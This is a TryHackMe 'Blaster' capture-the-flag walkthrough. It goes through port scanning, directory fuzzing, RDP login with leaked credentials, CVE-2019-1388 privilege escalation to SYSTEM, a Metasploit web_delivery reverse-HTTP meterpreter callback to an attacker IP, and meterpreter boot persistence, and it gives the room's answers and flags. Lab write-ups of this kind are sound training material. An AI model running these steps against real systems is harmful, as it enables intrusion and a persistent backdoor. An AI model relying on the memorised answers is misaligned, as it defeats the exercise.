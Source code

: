 # TryHackMe [Blaster](https://tryhackme.com/room/blaster)
### References
* DarkSec. (2021). TryHackMe Blaster Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/PoRPbbQnhEQ
## Activate Forward Scanners and Launch Proton Torpedoes
### How many ports are open on our target system?
```bash
$ nmap -sCV -Pn -vv <MACHINE_IP>
PORT     STATE SERVICE        REASON  VERSION
80/tcp   open  http           syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server? syn-ack
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2021-07-05T06:05:14+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-05-21T19:00:50
| Not valid after:  2021-11-20T19:00:50
| MD5:   bd8b f44d 69f6 0851 2c2b 7879 1f08 0ef2
| SHA-1: 7cc7 c6d6 e117 0e45 be2c cc90 d90d cd1b 39d3 ad72
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQYE9RQ301arpDJLcMX5ssUjANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMTA1MjExOTAwNTBaFw0yMTExMjAxOTAw
| NTBaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAoF7b88qJFNLmqp1ZsGImo8F7dy9B20mb2l3xiJ1qy07yXkcWDGpD
| GP16ZIfp/CFKqqVjD6JL0SXDIPbZUgT4zKgFMBEd8PY4OEPMiBisDHWvNpaq1j6i
| As/TfzhdEMs8Xkj3iaD4WLmiCCKnFYwzxFOQhe+sNeYxEbxhRkc8QHgCaglVRfiB
| G5bYFSju3UmzWSlo84AJvisuqiUeYnKbNdra9Dm/voZx0UA8QZcQh1lf3CDI/xXI
| qSavE6EU0CV3RtWz4lGeIx827rbp9oHQl2AUj1uFXoWuFJcWTHcI6iymAeTiwy6R
| jcAt1T8oxrkFonVG7Fg6kt5IDVFqjxd2wwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAF9vEUlM4lla
| LzBZWVvYBV3nMgyzoD9m6Tm57ocnAkQKansW+1wr7PLPRCLw6t73H2L0ExnZ1WdN
| t6r0wehNqLh0zlecDOsYQvY4Wvp/VnHHzi4BK9HQTN8TtbEPi6fFp5q92D0ZZwih
| Q74QZ5lZ10GJEajSM0yTgBumJCvbpgMh8bXr6YxSJ7Y0khiHSRMrJHKX0NmPRVsV
| dK59kAogoReXNF+MvciYMhnO+GA7lR9k897CCzccwy7zLqbZscKGnkX0iMDNaGPJ
| o4r9WJWNHHoFbjwb0LPeZqikrbk6hmr7NOWOKp5si+6Eu3n27COpmtoxUTCUcfFw
| mh/rxtNNuQc=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-07-05T06:05:21+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
**Answer**: `2`
### Looks like there's a web server running, what is the title of the page we discover when browsing to it?
**Answer**: `IIS Windows Server`
### Interesting, let's see if there's anything else on this web server by fuzzing it. What hidden directory do we discover?
```bash
$ gobuster dir -u http://<MACHINE_IP> -w $(pwd)/directory-list-2.3-medium.txt -t 40
/retro                (Status: 301) [Size: 150] [--> http://<MACHINE_IP>/retro/]
```
**Answer**: `/retro`
### Navigate to our discovered hidden directory, what potential username do we discover?
* From `http://<MACHINE_IP>/retro/`:
![`/retro`](retro.png)

**Answer**: `Wade`
### Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?
* Wade's comment on `http://<MACHINE_IP>/retro/index.php/2019/12/09/ready-player-one/`:
![Wade's comment](comment.jpg)

**Answer**: `parzival`
### Log into the machine via Microsoft Remote Desktop (MSRDP) and read `user.txt`. What are it's contents?
1. Use [Remmina](https://remmina.org/) to connect to `<MACHINE_IP>` username of `wade` and password of `parzival`.
2. Open the `user.txt` with Notepad which is loacted on Wade's desktop:
![`user.txt`](user.txt.jpg)

**User Flag**: `THM{HACK_PLAYER_ONE}`
## Breaching the Control Room
### Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?
* [DarkSec's video](https://youtu.be/PoRPbbQnhEQ) shows that the server's owner searched about `CVE-2019-1388`, however I could not find that in Internet Explorer's history logs.

**Answer**: `CVE-2019-1388`
### Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?

### Now that we've spawned a terminal, let's go ahead and run the command `whoami`. What is the output of running this?
1. Open `hhupd.exe` from the Desktop as Administrator and Show more information about the publisher's certificate:
![Administrator prompt](prompt.jpg)
2. Open the link of the certificate with Internet Explorer:
![Internet Explorer](ie.jpg)
3. Press <kbd>Control</kbd> + <kbd>S</kbd>:
![file save prompt](save_prompt.jpg)
4. Navigate to `C:\Windows\System32`, type `C:\Windows\System32\*.*` in the file name field and open `cmd.exe`:
```
C:\Windows\System32>whoami
nt authority\system
```

**Answer**: `nt authority\system`
### Now that we've confirmed that we have an elevated prompt, read the contents of `root.txt` on the Administrator's desktop. What are the contents?
```
C:\Windows\System32>type ..\..\Users\Administrator\Desktop\root.txt
THM{COIN_OPERATED_EXPLOITATION}
```
**Root Flag**: `THM{COIN_OPERATED_EXPLOITATION}`
## Adoption into the Collective
### First, let's set the target to PSH (PowerShell). Which target number is PSH?
```bash
$ msfconsole -q
msf6 > use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   SyncAppvPublishingServer
   6   PSH (Binary)
   7   Linux
   8   Mac OS X
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set LHOST <OPENVPN_IP>
msf6 exploit(multi/script/web_delivery) > run -j
```
**Answer**: `2`
### What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots?
* According to [Offensive Security Metasploit Documentation](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/):
```bash
meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location in target host to write payload to, if none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i   The interval in seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```

**Answer**: `run persistence -X`
